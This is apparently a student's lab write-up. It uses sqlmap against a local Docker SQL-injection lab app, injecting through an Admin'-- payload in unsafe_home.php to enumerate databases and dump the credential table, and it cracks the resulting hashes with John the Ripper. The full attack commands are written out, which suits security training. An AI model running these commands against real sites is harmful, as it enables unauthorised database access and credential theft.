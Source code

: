 # Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 

Run docker container from SQLi:
```sh
docker compose up -d
```

![](./images/Screenshot_1.png)

Website running on port 3128.

![](./images/Screenshot_2.png)

- Install sqlmap.
To get into the Linux command line of the Docker container and install sqlmap, you can follow these steps:

1. First, identify the container name or ID. From the Docker Compose file, we can see that the web container is named `www-10.9.0.5`. You can verify this by running:

```bash
docker ps
```
![](./images/Screenshot_3.png)

2. To enter the container's command line, use:

```bash
docker exec -it www-10.9.0.5 /bin/bash
```

3. Once inside the container, you'll need to update the package lists and install sqlmap. However, the container might be running a minimal image that doesn't include package managers. If that's the case, you'll need to install them first. Here are the steps:

```bash
# Update package lists
apt-get update

# Install Python and pip (if not already installed)
apt-get install -y python3 python3-pip

# Install sqlmap using pip
pip3 install sqlmap
```

Another way to install sqlmap in terminal:
```sh
pip install sqlmap
```

4. After installation, you can verify sqlmap is installed by running:

```bash
sqlmap --version
```

![](./images/Screenshot_4.png)

- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128" --level=3 --dbs
```

![](./images/Screenshot_6.png)

Detect database is MySQL.
![](./images/Screenshot_8.png)

Detect 79 tables.
![](./images/Screenshot_9.png)

Detailed explanation:
- `py sqlmap.py`: This runs the sqlmap Python script.
- `-u "http://localhost:3128"`: Specifies the target URL to test for SQL injection vulnerabilities.
- `--level=3`: Sets the level of tests to perform. Level 3 is more thorough than the default and includes more payload tests.
- `--dbs`: Instructs sqlmap to enumerate and retrieve the names of all available databases on the target system.

This command attempts to exploit SQL injection vulnerabilities in the target URL to discover all databases accessible to the application. The higher level (3) increases the chances of finding vulnerabilities but may also increase the time taken and the load on the target server.

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password=" --level=5 --risk=3 --tables --users --dump
```

![](./images/Screenshot_7.png)

Detailed explanation:
- `-u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password="`: Specifies the target URL, including a potential injection point in the username parameter.
- `--level=5`: Sets the highest level of tests, which includes all possible injection techniques and locations.
- `--risk=3`: Sets the highest risk level, allowing sqlmap to use potentially dangerous payloads that might affect database integrity.
- `--tables`: Instructs sqlmap to enumerate all tables in the discovered databases.
- `--users`: Tells sqlmap to retrieve information about database users.
- `--dump`: Attempts to dump the contents of all discovered tables.

This comprehensive command attempts to exploit the SQL injection vulnerability to extract as much information as possible, including table structures, user details, and table contents. The high level and risk settings make this a very aggressive scan, which could potentially cause issues with the target database if not used carefully.

![](./images/Screenshot_11.png)

Database users tables store in `C:\AnhTuDev\Uni\IS\lab-is\submission\lab_1_02FIE\task_2\code\sqlmap-dev\data\txt\common-columns.txt`

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password=" --dump -D sqllab_users -T credential --batch --output-dir=./sqlmap_output
```

Check output in `sqlmap_output` folder.

![](./images/Screenshot_12.png)


Check table `credential` in `sqllab_users` database.

![](./images/Screenshot_13.png)

You can see the password of all database users in `sqlmap_output` folder or `credential` table.

Detailed explanation:
- `-u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password="`: Specifies the target URL with a potential injection point.
- `--dump`: Instructs sqlmap to retrieve and output the contents of the specified table.
- `-D sqllab_users`: Specifies the target database name.
- `-T credential`: Specifies the target table name within the database.
- `--batch`: Runs sqlmap in non-interactive mode, automatically choosing default actions without user input.
- `--output-dir=./sqlmap_output`: Directs sqlmap to save all output files in the specified directory.

This command focuses on extracting the contents of the 'credential' table from the 'sqllab_users' database, which likely contains user login information. The `--batch` option automates the process, and the output is saved to a specific directory for easy access.

While the question mentions John the Ripper, the sqlmap command doesn't directly use it. To use John the Ripper with the extracted passwords:

1. Extract the password hashes from the sqlmap output.
2. Save these hashes in a file (e.g., `hashes.txt`).
3. Run John the Ripper on this file:

```bash
john hashes.txt
```

John the Ripper will attempt to crack the password hashes using various techniques and wordlists. The cracked passwords can then be viewed using:

```bash
john --show hashes.txt
```

This process allows you to potentially reveal the plaintext passwords of database users, demonstrating the importance of using strong, unique passwords and properly securing sensitive information.

**Conclusion**:

- Use sqlmap to get information about all available databases.
- Use sqlmap to get tables, users information.
- Make use of John the Ripper to disclose the password of all database users from the above exploit.
